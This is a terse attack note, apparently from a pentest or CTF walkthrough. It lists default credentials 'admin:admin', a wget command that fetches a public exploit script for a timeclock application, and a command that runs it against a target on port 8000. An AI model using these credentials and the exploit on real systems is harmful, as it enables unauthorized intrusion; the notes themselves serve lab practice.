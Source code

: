 Default creds admin:admin

```
wget https://raw.githubusercontent.com/timip/exploit/master/timeclock.py
```

```
python timeclock.py $TARGET 8000
```




